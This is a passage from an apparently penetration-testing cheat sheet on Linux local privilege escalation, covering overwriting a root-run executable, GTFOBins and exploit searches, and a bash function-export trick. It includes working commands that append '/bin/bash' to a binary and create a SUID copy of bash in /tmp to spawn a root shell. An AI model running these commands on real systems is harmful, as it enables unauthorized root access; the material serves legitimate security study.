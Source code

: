     ```
    sudo python2 /home/sofs/script/vip.py
    ```

#### **5 - Over Write File**

```
echo "/bin/bash" >> /usr/bin/rotexec
```

#### **6- Spawning Shell with Escaping to shell From executable**

search on [**GitFoBins**](https://gtfobins.github.io/) Name + \[shell] filter

#### **7- Search For Local PrivEsc Exploit ( CVE )**

metasploit

searchsploit

[**GitFoBins**](https://gtfobins.github.io/)

#### **8- Search For Local PrivEsc manual method**

[**GitFoBins**](https://gtfobins.github.io/) Name + \[SUDO] Filter

Get Code By Reverse Engineering -ReadFile - strings

OverFlows Testing

Exploit Logically Functionality of executable

#### **9- Source Code Review Bugs Like OSCommand Injection & OverFlows**

#### **10- Executbale Full Path Exploit**

* \*Note : Bash Version Should Be less than 4.2-048 \*\*
* **after Reading executable with`stringscat`You Found that called another executble with Full Path**
* **We Will abuse a feature in some bash Versions allow us to define a function contains “`/`” forward slashes in its names**
*   **assume We Found the executable content of`rotexec.sh`like**

    ![](https://0xbugatti.io/_astro/Screenshot_from_2022-08-31_14-25-04.GemnqSco_Z2tyyuw.webp)
*   **We Will Define A function with the same name as executable path**

    ```
    function /usr/bin/spm() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }export -f /usr/bin/spm
    ```
* **Then rotexec will retrive us a shell same name as executable path**

#### **11- Exploit Debugging Mode**

**Note : Bash Version Should Be more than 4.4**

